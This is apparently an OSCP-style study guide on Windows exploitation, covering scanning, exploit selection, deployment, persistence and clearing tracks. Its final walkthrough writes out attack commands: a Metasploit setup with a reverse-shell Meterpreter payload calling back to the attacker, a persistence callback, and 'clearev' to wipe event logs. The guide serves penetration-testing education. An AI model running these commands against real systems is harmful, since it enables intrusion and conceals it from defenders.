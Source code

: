 # Windows Exploiting (Basic Guide - OSCP lvl)


# 👉 Overview

---

### 👀 What ?

Windows Exploiting refers to the process of taking advantage of vulnerabilities or weaknesses in the Windows operating system, with the goal of gaining unauthorized access or control. It's a critical concept in penetration testing and ethical hacking, and is a fundamental topic in the Offensive Security Certified Professional (OSCP) certification.


### 🧐 Why ?

Understanding Windows exploiting is crucial for both defensive and offensive security professionals. For defenders, it helps identify and patch vulnerabilities, thus securing the network and data. For attackers, it provides opportunities for gaining unauthorized access or control. It's also an essential skill for the OSCP certification, a highly respected credential in the cybersecurity field.


### ⛏️ How ?

Exploiting Windows systems involves a systematic approach. First, identify potential vulnerabilities through techniques like scanning and enumeration. Next, choose an appropriate exploit for the vulnerability, which might involve creating a custom exploit or using one from databases like Metasploit. Then, deploy the exploit while considering factors like network architecture and security measures. Finally, establish persistence and clean up tracks to maintain access and avoid detection. This process requires a solid understanding of Windows architecture, networking, and programming.


### ⏳ When ?

The practice of exploiting Windows systems has been prevalent as long as these systems have existed. However, with the increasing focus on cybersecurity in the digital age, it has become a structured and essential practice in penetration testing and ethical hacking, especially for OSCP certification.


# ⚙️ Technical Explanations

---

Exploiting a Windows system is a comprehensive process that comprises several technical steps. It begins with scanning the system for any vulnerabilities, such as unpatched software, misconfigurations, or weak credentials. Various tools, such as Nmap, Nessus, or Wireshark, are used for this purpose.

Once the vulnerabilities are identified, the next step is to choose an appropriate exploit. Exploits can either be pre-existing, sourced from databases like Metasploit, or custom-made. The process of creating a custom exploit involves an in-depth understanding of the vulnerability and writing code to exploit it. This could potentially involve techniques such as buffer overflows, injection attacks, or privilege escalation.

The exploit is then deployed by sending it to the target system and triggering it. This step requires a robust understanding of networking and potentially evading security measures like firewalls or intrusion detection systems.

Upon successful exploitation, the attacker establishes persistence to maintain access to the system. This involves understanding Windows internals, including the registry, services, and file system, and manipulating these components to ensure that the attacker's presence remains undetected and access to the system remains intact.

Finally, the attacker cleans up any tracks to avoid detection. This usually involves deleting logs, concealing changes made to the system, and any other actions that may alert system administrators about the intrusion.

This entire process is complex and requires a deep understanding of multiple areas, including Windows architecture, networking, programming, and cybersecurity principles. However, mastering these skills is fundamental for penetration testers and ethical hackers, and is a key component of certifications like the Offensive Security Certified Professional (OSCP).

The process of exploiting a Windows system can be illustrated with an example where an unpatched software vulnerability is exploited using a pre-existing exploit.

1. **Scanning the system**: The first step is to identify potential vulnerabilities. This can be done using a tool like Nmap. For instance, the command `nmap -sV -p- targetIP` scans all ports on the target system and identifies the services running on them.
2. **Choosing an exploit**: Once you've identified a vulnerability, such as an outdated version of a service running on the target system, you can search for an appropriate exploit in databases like Metasploit. For example, if the system is running an outdated FTP service, you might find a relevant exploit in Metasploit by searching `search ftp`.
3. **Deploying the exploit**: After choosing an exploit, it's time to deploy it. In Metasploit, this involves setting the exploit and payload, and configuring the target IP. It might look something like this:
    
    ```bash
    use exploit/windows/ftp/NAME_OF_EXPLOIT
    set RHOST targetIP
    set PAYLOAD windows/meterpreter/reverse_tcp
    set LHOST yourIP
    exploit
    
    ```
    
    This sends the exploit to the target system and, if successful, opens a Meterpreter session with the target.
    
4. **Establishing persistence**: Once you've gained access to the system, you want to maintain that access. This can be done using various Meterpreter scripts. For example, running `run persistence -X -i 10 -p 4444 -r yourIP` sets the system to attempt to connect back to you every 10 seconds.
5. **Cleaning up tracks**: Finally, you'd want to erase any evidence of your intrusion. This might involve deleting logs or other traces of the exploit. For example, `clearev` in a Meterpreter session clears the event logs on the target system.

Please note that this example is simplified and real-world scenarios often involve additional complexities and steps.

# 🖇️ Références

---